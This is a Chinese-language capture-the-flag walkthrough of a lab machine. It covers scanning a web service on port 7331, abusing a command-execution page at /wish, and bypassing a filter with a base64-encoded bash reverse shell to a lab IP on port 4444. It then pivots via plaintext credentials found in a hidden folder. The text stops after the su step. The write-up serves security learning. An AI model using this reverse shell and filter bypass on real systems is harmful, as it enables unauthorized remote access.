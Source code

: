 ## web服务探测

接着，我们对运行http服务的7331端口进行目录扫描，看看能否发现隐藏的目录。

[![10.png](https://i.loli.net/2019/12/04/jMSldTLoB5F36z7.png)](https://i.loli.net/2019/12/04/jMSldTLoB5F36z7.png)

果不其然，通过目录扫描发现了“/wish”和“/genie”两个目录，依次访问一下。发现“/genie”目录报了403，没有访问权限；而“/wish“目录是一个类似命令执行的页面。

[![11.png](https://i.loli.net/2019/12/04/FYzBbQ8mpuMvak7.png)](https://i.loli.net/2019/12/04/FYzBbQ8mpuMvak7.png)

[![9.png](https://i.loli.net/2019/12/04/dC1lYucDGmoZAVp.png)](https://i.loli.net/2019/12/04/dC1lYucDGmoZAVp.png)

在输入框中输入“id"，页面跳转到了“/genie”，并成功执行了命令。

[![12.png](https://i.loli.net/2019/12/04/X9ZNtBrSLejbkUW.png)](https://i.loli.net/2019/12/04/X9ZNtBrSLejbkUW.png)

## 漏洞利用

直接写上反弹命令提示命令被过滤需要绕过

```bash
echo "bash -c 'exec bash -i &>/dev/tcp/192.168.55.128/4444 <&1'" | base64 
```

得到编码过后的结果，然后用

```bash
echo "加密字符串" |base64 -d |bash
```

这行命令url编码后发送并在本地开启监听端口

成功弹到shell：www-data

![img](https://i.loli.net/2019/12/04/S9XwhDBUvNEdz2j.png)

## 立足点获取

当前权限几乎没任何提权的能力，发现passwd下面有两个用户

![img](https://i.loli.net/2019/12/04/vNHVTbaWkZeofln.png)

nitish之前收集到过一些信息尝试着枚举了一下密码之类的东西，发现没有正确的。

一头雾水的时候搜了一下creds.txt这个文件，发现了在他的家目录下面有个隐藏文件夹中存在明文的密码

![QlxA74.png](https://s2.ax1x.com/2019/12/04/QlxA74.png)

```
su nitish
```

转到用户权限
